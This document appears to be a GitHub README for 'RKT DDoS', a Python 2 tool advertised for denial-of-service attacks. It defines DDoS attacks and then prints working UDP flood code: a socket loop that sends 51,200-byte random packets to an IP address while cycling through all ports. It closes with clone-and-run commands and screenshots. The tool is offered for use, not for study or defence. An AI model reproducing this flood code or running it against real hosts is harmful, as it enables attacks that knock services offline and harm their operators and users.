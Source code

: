 [![MIT](https://img.shields.io/packagist/l/doctrine/orm.svg)](https://github.com/r3k4t/rktddos/blob/master/LICENSE) 
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/download/releases/2.7/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux yellowgreen.svg)

<h2>RKT DDoS</h2>

<h4>Author : RKT</h4>

### Descripton ###

![DDOS Attack-compressed](https://user-images.githubusercontent.com/69615463/96414395-b0326e00-120a-11eb-832a-a66f32b6f2dd.jpg)


### DDos(Distributed Denial-Of-Service) ###

A distributed denial-of-service (DDoS) attack is a malicious attempt to disrupt the normal traffic of a targeted server, service or network by overwhelming the target or its surrounding infrastructure with a flood of Internet traffic.

DDoS attacks achieve effectiveness by utilizing multiple compromised computer systems as sources of attack traffic. Exploited machines can include computers and other networked resources such as IoT devices.

From a high level, a DDoS attack is like an unexpected traffic jam clogging up the highway, preventing regular traffic from arriving at its destination.


### Python DDoS Code(Basic) ###

>>>import socket
<br>
>>>import random
<br>
>>>rkt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
<br>
>>>bytes = random._urandom(51200)
<br>
>>>ip   = "127.0.0.1"
<br>
>>>port = 80
<br>
>>>sent = 0
<br>
>>>while True:
      <br>
>>> ...  rkt.sendto(bytes,(ip,port))
       <br>
>>> ...  sent = sent + 1
       <br>
>>> ...  port = port + 1
       <br>
>>> ...  print "SENT %s PACKET TO %s THROUGHT PORT:%s" % (sent,ip,port)
       <br>
>>> ...  if port == 65535:
       <br>   
>>> ...   port = 1
  

#### Tested On ###

<ul>
<li>Ubuntu</li>
<li>Kali Linux</li>
<li>Linuxmint</li>
<li>Parrot Os</li>
</ul>


### Setup ###

<ul>
<li>sudo pip2 install requirements.txt</li>
</ul> 

### Terminal Command ###

<ul>
<li>git clone https://github.com/r3k4t/rktddos.git</li>
<li>cd   rktddos          </li>
<li>sudo python2 rktddos.py</li>
</ul>

### Screentshots ###

![Screenshot at 2020-10-19 12-54-05](https://user-images.githubusercontent.com/69615463/96414279-8aa56480-120a-11eb-82c0-4833bd7dba4a.png)

Next

![Screenshot at 2020-10-19 12-54-22](https://user-images.githubusercontent.com/69615463/96414316-96912680-120a-11eb-8e82-7b68da167f4c.png)


Next


![Screenshot at 2020-10-19 12-54-27](https://user-images.githubusercontent.com/69615463/96414350-a14bbb80-120a-11eb-8a39-368429a790ef.png)








